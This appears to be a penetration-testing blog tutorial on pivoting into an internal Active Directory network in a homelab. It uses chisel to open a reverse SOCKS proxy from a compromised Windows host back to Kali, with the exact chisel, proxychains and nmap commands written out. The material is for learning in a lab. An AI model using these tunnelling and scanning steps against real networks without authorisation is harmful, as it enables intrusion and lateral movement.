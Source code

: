 ```yaml
---
layout: post
title: 'Pivoting with Chisel'
date: '2022-11-8 19:21:00 +0100'
categories: [Tutorial, Homelab]
tags: [linux, windows, active-directory, oscp, pentesting, tutorial, ctf, chisel, tunneling, homelab, kali]
---
```


In this tutorial, we are covering a scenario where we have network access a to single Windows domain-joined system (**Client A**) from our Kali machine. **Client A** has two network interfaces, the one on which our Kali machine has access, and the second one facing an internal network, where the rest of the domain-joined systems reside, including the domain controller. We do not have direct access to this internal network from Kali. Our goal is therefore to use **Client A** as a pivot point into the the internal network, allowing us to perform **Nmap** scans and other actions against all the systems in the domain.

To achieve this, we will be using the tool [chisel](https://github.com/jpillora/chisel).

![ad-domain](/assets/img/chisel/domain.png)

## What is Chisel? A brief overview

Chisel can set up TCP/UDP tunnels over HTTP, and secures them using SSH. The chisel binary includes both the server and client, with versions available for both Linux and Windows which can interact. According to the chisel [github](https://github.com/jpillora/chisel) page:

> Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

## Scenario

Here I will explain our setup in a little more detail:

![ad-domain](/assets/img/chisel/domain.png)

All machines in the example are running on VMWare Workstation. We have a small Active Directory domain, comprised of three machines. A domain controller (Windows server 2019) and two Windows client machines (Windows 10 Enterprise). We also have our 'attacker' machine, running Kali Linux, outside the domain. All machines in the domain are on the same __host-only__ network, `10.10.10.0/24`. However, **Client A** has two network interfaces, the second of which is on the `192.168.136.0/24` __host-only__ network, where our Kali system also resides. From our Kali system, we can therefore ping, scan, and potentially exploit **Client A**. It is our pivot point into the domain. 

For this tutorial, we will assume that we have already exploited and gained a SYSTEM level shell on **Client A**. Our goal here is simply to gain the ability to scan the other machines on the internal `10.10.10.0/24` network, to which we have no direct access from Kali.

In order to do this, we have already transferred [chisel.exe](https://github.com/jpillora/chisel/releases) to **Client A** (see my [File Transfer](https://dev-0x0/github.io/tags/file-transfer/) tutorials), which we will use to set up a **reverse SOCKS proxy**, allowing us to **Nmap** scan the internal network machines (**Client B** and the **Domain Controller**) through the **proxychains** tool on Kali.

If all this seems confusing, fear not, we will take it step by step, and I will try to keep things concise from here!

## What we need to do

1. Open `/etc/proxychains4.conf` on Kali and make an entry for a SOCKS5 proxy.
2. On Kali, start our **chisel** reverse proxy server.
3. On **Client A**, connect the **chisel** client back to the server.
4. Use the proxy by sending our tools (**Nmap** etc.) through **proxychains**.

## Prerequisites

1. Install **chisel** on Kali Linux, if not already installed ([installation](https://github.com/jpillora/chisel#install))
2. Get the **chisel** Windows binary ([available here](https://github.com/jpillora/chisel/releases)). The download has a name like `chisel_1.7.7_windows_amd64.gz`. I have renamed the actual binary to *chisel.exe* for convenience.
3. A lab setup to practice on. As mentioned above, I am working on a tutorial for this.

## Step 1: Editing /etc/proxychains4.conf

According to the [proxychains](https://github.com/haad/proxychains) github page:

> ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies.

Great. We use the `proxychains4.conf` file to tell it about our proxy, then we can run tools through the proxy with a command like:

`sudo proxychains [COMMMAND]`

We use the following entry, which we put in the **[ProxyList]** section at the end of the file. 

**Important**: We should make sure our proxy entry is the only uncommented proxy here. Depending on other settings in the file, we may run into issues otherwise.

SOCKS5 proxy entry:

`sudo vim /etc/proxychains4.conf`

> socks5 127.0.0.1 1080

![proxychains.conf](/assets/img/chisel/proxychains-conf.png)


## Step 2: Starting up Chisel 

![chisel-server](/assets/img/chisel/chisel-server.png)

![chisel-client](/assets/img/chisel/chisel-client.png)

**Commands:**

On Kali (do this first). We start our **chisel server** on port **8000**.

`chisel server --port 8000 --reverse`

On Windows (Client A). We start the **chisel client**, specify the server to connect back to (on Kali), and specify our SOCKS proxy, configured in `proxychains4.conf`.

`chisel.exe client 192.168.136.129:8000 R:1080:socks`

Some **chisel** help:

**chisel server**

![port-help](/assets/img/chisel/port-help.png)
![reverse-help](/assets/img/chisel/reverse-help.png)

**chisel client**

We connect back to our **chisel** server on Kali at `192.168.136.129:8000`, and create the reverse (`R`) SOCKS5 proxy
on port `1080`. Traffic sent through **proxychains** will now be proxied through the client.

On Kali, we can see that port 1080 is now listening on 127.0.0.1

![socks-port](/assets/img/chisel/socks-port.png)

## Step 3: Scanning the internal network

To scan the internal network, we must, as mentioned above, use **proxychains**, so that all our traffic traverses through the proxy. This brings us to an important caveat.

When using **Nmap** through **proxychains** we are restricted to using the less efficient (much slower) **Connect()** scan, which utilises TCP connections (`-sT` option). We must also use the `-Pn` option, which tells **Nmap** to skip host discovery (no ping). For this reason, it is often more practical to use the `--top-ports` **Nmap** option for initial scans, rather than scanning the entire port range.

Since I know the IP addresses of the systems on the internal network, below is a port scan of the **Domain Controller**. 

**Nmap command with proxychains:**

`sudo proxychains -q nmap -Pn -sT --top-ports 100 --open -T4 10.10.10.128`

The `-q` option stops **proxychains** from outputting all the connections it is making behind the scenes.
Leaving this out can be useful for debugging purposes.

![proxychains](/assets/img/chisel/DC-nmap-scan.png)

## Other commands through proxychains

We can also use other tools through proxychains like **smbclient** shown below, and scripts like **enum4linux-ng.py**.

![smbclient-proxychains](/assets/img/chisel/smbclient-proxychains.png)

## Conclusion

We can now use **Nmap**, and other tools and scripts against the machines in the internal network. In a future tutorial, I will cover setting up port-forwarding with **plink.exe** in order to transfer files from our Kali system to machines in the internal network. I hope this was helpful. Thanks for reading!





